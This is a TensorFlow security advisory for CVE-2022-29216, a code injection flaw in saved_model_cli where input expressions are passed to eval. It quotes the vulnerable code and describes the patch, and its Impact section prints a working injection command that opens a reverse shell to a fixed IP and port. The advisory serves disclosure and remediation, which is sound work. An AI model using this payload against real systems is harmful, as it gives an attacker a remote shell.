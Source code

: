 ## TFSA-2022-060: Code injection in `saved_model_cli`

### CVE Number
CVE-2022-29216

### Impact
TensorFlow's `saved_model_cli` tool is vulnerable to a code injection:

```
saved_model_cli run --input_exprs 'x=print("malicious code to run")' --dir ./
--tag_set serve --signature_def serving_default
```

This can be used to open a reverse shell

```
saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
--dir ./ --tag_set serve --signature_def serving_default
```

This is because [the fix](https://github.com/galeone/tensorflow/commit/8b202f08d52e8206af2bdb2112a62fafbc546ec7) for [CVE-2021-41228](https://nvd.nist.gov/vuln/detail/CVE-2021-41228) was incomplete. Under [certain code paths](https://github.com/galeone/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/python/tools/saved_model_cli.py#L566-L574) it still allows unsafe execution:

```python
def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
  # ...

  for input_raw in filter(bool, input_exprs_str.split(';')):
    # ...
    if safe:
      # ...
    else:
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict
```

This code path was maintained for compatibility reasons as we had several test cases where numpy expressions were used as arguments.

However, given that the tool is always run manually, the impact of this is still not severe. We have now removed the `safe=False` argument, so all parsing is done withough calling `eval`.

### Patches
We have patched the issue in GitHub commit [c5da7af048611aa29e9382371f0aed5018516cac](https://github.com/galeone/tensorflow/commit/c5da7af048611aa29e9382371f0aed5018516cac).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Andey Robins from the Cybersecurity Education and Research Lab in the Department of Computer Science at the University of Wyoming.
